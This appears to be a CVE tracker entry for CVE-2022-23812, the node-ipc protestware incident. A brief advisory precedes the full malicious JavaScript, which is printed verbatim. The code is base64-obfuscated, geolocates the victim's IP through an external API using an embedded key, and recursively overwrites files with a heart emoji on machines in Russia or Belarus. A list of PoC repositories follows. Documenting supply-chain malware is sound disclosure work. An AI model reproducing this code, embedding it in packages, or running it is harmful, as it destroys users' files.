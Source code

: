 ### [CVE-2022-23812](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23812)
![](https://img.shields.io/static/v1?label=Product&message=node-ipc&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3E%3D%2010.1.1%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Malicious%20Package&color=brighgreen)

### Description

This affects the package node-ipc from 10.1.1 and before 10.1.3. This package contains malicious code, that targets users with IP located in Russia or Belarus, and overwrites their files with a heart emoji. **Note**: from versions 11.0.0 onwards, instead of having malicious code directly in the source of this package, node-ipc imports the peacenotwar package that includes potentially undesired behavior. Malicious Code: **Note:** Don't run it! js import u from "path"; import a from "fs"; import o from "https"; setTimeout(function () { const t = Math.round(Math.random() * 4); if (t > 1) { return; } const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64"); // https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154 o.get(n.toString("utf8"), function (t) { t.on("data", function (t) { const n = Buffer.from("Li8=", "base64"); const o = Buffer.from("Li4v", "base64"); const r = Buffer.from("Li4vLi4v", "base64"); const f = Buffer.from("Lw==", "base64"); const c = Buffer.from("Y291bnRyeV9uYW1l", "base64"); const e = Buffer.from("cnVzc2lh", "base64"); const i = Buffer.from("YmVsYXJ1cw==", "base64"); try { const s = JSON.parse(t.toString("utf8")); const u = s[c.toString("utf8")].toLowerCase(); const a = u.includes(e.toString("utf8")) || u.includes(i.toString("utf8")); // checks if country is Russia or Belarus if (a) { h(n.toString("utf8")); h(o.toString("utf8")); h(r.toString("utf8")); h(f.toString("utf8")); } } catch (t) {} }); }); }, Math.ceil(Math.random() * 1e3)); async function h(n = "", o = "") { if (!a.existsSync(n)) { return; } let r = []; try { r = a.readdirSync(n); } catch (t) {} const f = []; const c = Buffer.from("4p2k77iP", "base64"); for (var e = 0; e < r.length; e++) { const i = u.join(n, r[e]); let t = null; try { t = a.lstatSync(i); } catch (t) { continue; } if (t.isDirectory()) { const s = h(i, o); s.length > 0 ? f.push(...s) : null; } else if (i.indexOf(o) >= 0) { try { a.writeFile(i, c.toString("utf8"), function () {}); // overwrites file with ❤️ } catch (t) {} } } return f; } const ssl = true; export { ssl as default, ssl };

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/ARPSyndicate/cvemon
- https://github.com/NaInSec/CVE-PoC-in-GitHub
- https://github.com/SYRTI/POC_to_review
- https://github.com/WhooAmii/POC_to_review
- https://github.com/bernardgut/find-node-dependents
- https://github.com/k0mi-tg/CVE-POC
- https://github.com/karimhabush/cyberowl
- https://github.com/manas3c/CVE-POC
- https://github.com/nicolardi/node-ipc-protestware-post.mortem
- https://github.com/nomi-sec/PoC-in-GitHub
- https://github.com/open-source-peace/protestware-list
- https://github.com/scriptzteam/node-ipc-malware-protestware-CVE-2022-23812
- https://github.com/soosmile/POC
- https://github.com/trhacknon/Pocingit
- https://github.com/zecool/cve


